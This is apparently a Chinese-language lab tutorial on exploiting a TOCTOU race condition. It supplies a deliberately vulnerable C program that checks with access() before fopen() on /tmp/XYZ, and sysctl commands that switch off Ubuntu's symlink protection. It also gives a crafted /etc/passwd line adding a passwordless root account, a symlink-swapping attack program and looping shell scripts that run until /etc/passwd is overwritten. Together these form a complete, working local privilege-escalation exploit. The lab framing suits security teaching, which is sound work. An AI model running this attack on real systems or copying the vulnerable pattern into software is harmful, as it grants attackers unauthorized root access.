






# 竟态条件漏洞背景

竟态条件是指一个系统或程序的输出结果取决于其他不可控制事件执行的时间顺序。  
就是多线程并发时，由于检查时间和使用时间的影响，没有锁住唯一资源导致  

## 准备有漏洞的程序

```c
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main()
{
    char *fn = "/tmp/XYZ";
    char buffer[60];
    FILE *fp;
    
    scanf("%50s", buffer);
    if (!access(fn, W_OK))
    {
        fp = fopen(fn, "a+");
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else printf("No permission \n");
    
    return 0;
}
```


!!! 禁用保护措施

    因为许多竟态条件攻击与/tmp目录中的符号链接文件有关，所以ubuntu采用一种保护措施来限制一个程序
    是否可以使用一个全局可写目录中的符号链接（如/tmp）。要想攻击成功，必须关闭该保护措施。  
    ubuntu 12：  sudo sysctl -w kernel.yama.protected_sticky_symlinks=0  
    ubuntu 14/16： sudo sysctl -w fs.protected_symlinks=0  
    
## 确定攻击目的

```bash
root:x:0:0:root:/bin/bash
```

上面这个x，表示密码存储在/etc/shadow文件中

!!! ubuntu中的特殊密码

    LiveCD能够使你在不安装到硬盘的前提下，体验操作系统。ubuntu的LiveCD使用了一个特殊的密码，
    值是U6aMy0wojraho，在系统提示输入密码时，回车即可。

本攻击目的是修改/etc/passwd文件，创建一个有root权限并且不需要密码保护的账户，构造如下：
```bash
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
```
把以上字符串保存在passwd_input文件中

## 准备攻击程序

为了攻击竟态条件漏洞，需要产生两个互相竞争的进程。分别为目标进程和攻击进程。

目标进程target_process.sh
```bash
#!/bin/sh

while :
do 
    ./vulp < passwd_input
done
```

攻击进程attack_process.c
```c
#include <unistd.h>

int main()
{
    while(1)
    {
        unlink("/tmp/XYZ");
        symlink("/dev/null", "/tmp/XYZ");
        usleep(1000);
        
        unlink("/tmp/XYZ");
        symlink("/etc/passwd", "/tmp/XYZ");
        usleep(1000);
    }
    return 0;
}
```


为了检测攻击是否成功，需要检查密码文件中的时间戳，查看它是否被修改过，改进代码：
```bash
#!/bin/bash

CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do 
    ./vulp < passwd_input
    new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```

## 发动攻击

在窗口1启动攻击进程：


在窗口2启动目标进程：
```bash
bash target_process.sh
```


/etc/passwd文件已经新增了一行

可见新增了一个root权限的test用户，攻击成功 &#x1F44D;&#x1F44D;&#x1F44D;

!!! Note

    如果攻击失败，尝试修改usleep的时间，检查/tmp/XYZ的拥有者如为root，则需要删除
    sudo rm /tmp/XYZ，之后重试